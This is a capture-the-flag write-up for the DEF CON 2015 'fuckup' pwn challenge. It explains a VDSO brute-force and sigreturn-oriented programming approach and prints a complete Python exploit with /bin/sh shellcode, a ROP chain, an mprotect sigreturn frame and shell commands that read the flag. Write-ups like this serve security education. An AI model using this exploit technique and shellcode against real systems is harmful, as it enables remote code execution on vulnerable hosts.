 title: DEF CON CTF 2015 - fuckup (pwn3) Writeup
date: 2015-05-19 22:14:08
tags:
- writeup
- pwn
---

## Description
> fuckup_56f604b0ea918206dcb332339a819344.quals.shallweplayaga.me:2000
> OR
> fuckup_56f604b0ea918206dcb332339a819344.quals.shallweplayaga.me:46387
> [Download](http://downloads.notmalware.ru/fuckup_56f604b0ea918206dcb332339a819344)

## Introduction

This is a PoC service for the new and improved ASLR, "Fully Unguessable Convoluted Kinetogenic Userspace Pseudoransomization"(F.U.C.K.U.P. for short).
Each time a user executes a command, F.U.C.K.U.P. changes the base address of memory where the binary is mapped according to a random number produced by the generation algorithm similar to WELL512.

We can select from the following commands:
 0. Quit: simply `return 0;`.
 1. Display info: Display an introduction. Nothing interesting.
 2. Change random: Generate a random value and move mappings correspondingly.
 3. View state info: Show the current random value and then change the value as same as "Change random".
 4. Test stack smash: Cause stack based buffer overflow by 100 bytes against a 10-byte buffer.

Actually, I don't know the detailed implementations of these commands except for "Test stack smash", for it was not I but another team member who cope with this challenge at first.
It seems that the author's intended solution is to use SMT solver like z3 to predict random values generated, and my teammate attempted to do that. 
It, however, however,, didn't work correctly since we were unfamiliar with and poor at using SMT solver.
So I decided to try to solve this problem by the really "pwnwise" solution.

First, I suspected Partial Overwrite could be used.
Yes, actually it can be.
Reading `stack_smash(sub_8048521)`, there is called `read_n(sub_8048363)` which simply receives input as this:
```C
sum = 0;
do {
    nread = read(0, addr, n-sum);
    if (nread != -1) sum += nread;
} while (sum < n);
```
As you may see, this implementation is weird because using `read(0, addr, n-sum)` instead of `read(0, addr+sum, n-sum)`.
Therefore, it is possible to do Partial Overwrite by splitting input into several.
[@wapiflapi](https://twitter.com/wapiflapi/), a great hacker in France shares the exploit using this method([http://hastebin.com/iyinepaxen.py](http://hastebin.com/iyinepaxen.py)).
Very simple, isn't it?

BUT I COULD NOT COME UP WITH IT.
Because I misread `read_n` as `read(0, addr+sum, n-sum)`.
So at that time I thought "Wow, nice security. I have no choice but to overwrite a buffer completely by 100 bytes. If I can't use Partial Overwrite, then how can I solve this...?". Too stupid.
Okay, let me explain how I solved this problem even though I couldn't use z3 and Partial Overwrite.

## Solution
Thinking that the return address is always overwritten by a buffer overflow, I had to overwrite it with some valid address.
Here, valid address means a address being mapped and executable.
So there are two possible ways to exploit the binary:
 1. Fix valid addresses somehow.
 2. Use the addresses which are always fixed.

I thought the former could be realized because the number of mapped addresses goes on increasing by `change_mapping(sub_80481A6)`.
In change_mapping, `mmap` is called like this:
```C
do
{
    seedf = randf(state) * 4294967295.0;
    seedl = (int)seedf;
    expect = (void *)(seedl & 0xFFFFF000);
    actual = mmap(expect, 0x7000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
} while (expect != actual);
```
As you can see, the mapped addresses won't be unmapped even if it fails to establish mappings at expected addresses.
Therefore, the more the number of mapped addresses has increased, the less the number of the possible addresses capable of being becomes.
But this approach isn't realistic because it needs to do "Change random" many times(about thouthands or hundreds of thouthands times).

The latter, actually, can be realized: using VDSO.
I think everyone knows this, but VDSO ASLR is weaker than ASLR on the other sections(that entropy is usually only 2 bytes) and there is a famous exploit method, Sigreturn Oriented Programming(SROP).
That means we can solve this problem by doing brute force 256 times.
It was a little bit difficult for me to write the exploit due to the limitation that I had to do ROP only with gadgets on VDSO and that I was allowed to use only 78 bytes for ROP.
sysenter is a good gadget for stack pivotting!
```python
import subprocess
import socket
import re
import sys
import random
from struct import pack, unpack
from Frame import SigreturnFrame
from time import sleep
from sys import argv

TARGET = ('localhost', 6666)
if len(argv) > 1:
    TARGET  = ('fuckup_56f604b0ea918206dcb332339a819344.quals.shallweplayaga.me', 2000)

OFFSET_SR   = 0x401
OFFSET_SC   = 0x42e
OFFSET_SY   = 0x425
OFFSET_POP  = 0x431
SHELLCODE = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x54\x59\x50\x5a\x6a\x0b\x58\xcd\x80"

RANGE_VDSO  = range(0xf7700000, 0xf7800000, 0x1000)

def recv_until(sock, pat):
    buf = b''
    while buf.find(pat) == -1:
        buf += sock.recv(1)
    return buf

def main():
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect(TARGET)

        vdso = random.choice(RANGE_VDSO)
        stack_addr = vdso - 0x800
        shellcode_addr = vdso - 0x1000
        print "vdso:", hex(vdso)

        data = b'\x00' * (0x16)
        data += pack('<I', vdso + OFFSET_POP)   # pop edx, ecx
        data += pack("<I", 2304)                # edx
        data += pack("<I", shellcode_addr)      # ecx

        data += pack('<I', vdso + OFFSET_SC)    # read(eax=3)
        data += pack("<I", stack_addr)
        data += pack("<I", stack_addr)
        data += pack("<I", stack_addr)

        data += pack('<I', vdso + OFFSET_SY)    # sysenter 
 
        print "data:", len(data)
        data = data.ljust(100, 'A')
        assert(len(data) == 100)

        recv_until(sock, b'0. Quit')
        sock.sendall(b'4\n')
        recv_until(sock, b'stop code execution')

        sock.sendall(data[:-3])
        sock.sendall("")
        sleep(1)
        sock.sendall(data[-3:]) # eax = 3

        stack = ""
        stack += pack("<I", 0xdeadbeef) * 3
        stack += pack("<I", vdso + OFFSET_SR)

        frame = SigreturnFrame(arch="x86")
        frame.set_regvalue("eax", 0x7d)           # mprotect
        frame.set_regvalue("ebx", shellcode_addr) # addr
        frame.set_regvalue("ecx", 0x1000)         # len
        frame.set_regvalue("edx", 7)              # prot
        frame.set_regvalue("eip", vdso + OFFSET_SC)
        frame.set_regvalue("esp", stack_addr+0x80)
        frame.set_regvalue("ds", 0x2b)
        frame.set_regvalue("es", 0x2b)

        stack += frame.get_frame()
        stack += pack("<I", shellcode_addr) * 40
        
        sleep(1)

        payload = SHELLCODE
        payload = payload.ljust(0x800, "\x90")
        payload += stack
        print "payload:", len(payload)
        assert(len(payload) <= 0x1000)

        sleep(1)
        sock.sendall(payload)
        sleep(0.1)

        sock.sendall("ls\n")
        sock.sendall("ls /home\n")
        sock.sendall("ls /home/fuckup\n")
        sock.sendall("ls /home/fuckup/flag\n")
        sock.sendall("ls /home/fuckup/*flag*\n")
        sock.sendall("cat /home/fuckup/*flag*\n")

        sleep(1)

        resp = ""
        resp += sock.recv(65535)
        if resp == '' or resp == '\n':
            raise Exception("Failed")
        print [resp]
        raw_input()
        
if __name__ == '__main__':
    i = 1
    while True:
        print "\nTry {}:".format(i)
        try:
            main()
        except Exception as e:
            print e
            pass
        i += 1
```
Using [Frame.py](https://github.com/eQu1NoX/srop-poc/blob/master/Frame.py).

```
['\nbin\nboot\ndev\netc\nhome\ninitrd.img\ninitrd.img.old\nlib\nlib64\nlost+found\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\nvmlinuz\nvmlinuz.old\nfuckup\nubuntu\nflag\nfuckup\n/home/fuckup/flag\n/home/fuckup/flag\nThe flag is: z3 always helps\n']
```

##Summary
Sleep enough not to misread disas.

written by hugeh0ge([@hugeh0ge](https://twitter.com/hugeh0ge))
